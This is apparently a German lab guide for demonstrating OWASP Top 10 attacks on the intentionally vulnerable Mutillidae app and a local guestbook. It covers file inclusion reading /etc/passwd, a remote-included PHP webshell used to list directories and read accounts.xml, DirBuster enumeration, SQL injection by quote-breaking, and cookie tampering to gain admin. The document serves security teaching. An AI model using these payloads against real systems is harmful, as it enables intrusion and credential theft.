


# A1 - Broken Access Control

## Local File Inclusion

1. Mutillidae -> OWASP 2017 -> A5 Broken Access Control -> Insecure Direct Object References -> Remote File Inclusion
2. Hinweis auf Erklärungstext (allow_url_fopen)
3. Hinweis auf URL-Parameter: page = /etc/passwd
	1. oder ... =/etc/apache2/apache2.conf
	
## Remote File Inclusion

1. Mutillidae -> OWASP 2017 -> A5 Broken Access Control -> Insecure Direct Object References -> Remote File Inclusion
2. Hinweis auf Erklärungstext (allow_url_fopen)
3. Hinweis auf URL-Parameter: page = xyz
	1. Aufruf Beispiel: index.php?page=https://thm.de
4. Go to Terminal
	1. locate webshell
		1. /usr/share/webshells
	2. cd /usr/share/webshells
	3. ll
	4. cd php/
	5. python -m http.server `<PORT>` (nimm Port 5000)
5. Go To Firefox
	1. page=http://localhost:5000/simple-backdoor.php
	2. Hinweis auf Access Log in Terminal mit Python Webserver
6. Kommandos über die Webshell ausführen
	1. page=http://localhost:5000/simple-backdoor.php&cmd=pwd
	2. &cmd=ls -l /var/www/html/mutillidae
	3. Anschauen - bemerke Directory "configuration"
	4. &cmd=ls -l /var/www/html/mutillidae/data
	5. &cmd=cat /var/www/html/mutillidae/data/accounts.xml

## DirBuster

DirBuster anwenden auf http://localhost/guestbook oder http://localhost/mutillidae

1. DirBuster starten
2. Firefox mit Guestbook starten: localhost/guestbook
3. Target URL: http://localhost
4. Number of Thread (100)
5. Dir / List file: /usr/share/dirbuster/wordlists --> directory-list-2.3-medium.txt
6. Dir to start with: /guestbook
7. Click START and run scan

**Fun facts:**
Zeigen des Access.log vom Apache während des Scans

**Findings: (beispielhaft)**
- guestbook/test/settings.txt --> Click to open in Firefox
- info.php --> Apache Version etc.

# A3 - SQL Injection

In Username oder Passwort die Query mit `'` (Single quote) brechen

# A7 - Identification and Authentication Failures

## Authentication Bypass-Attack using Cookies

1. Register Account in Mutillidae
2. Login nach Registration mit dem Account 
	1. Der Nutzer wird als angemeldet angezeigt
	2. Developer-Konsole öffnen (Rechtsklick / Inspect)
	3. Auf Tab STORAGE und dort die COOKIES für localhost anzeigen lassen

Interessant sind hier `uid` und `username`. Wenn man daran ändert, dann kann man sich mit `uid = 1` zum Admin machen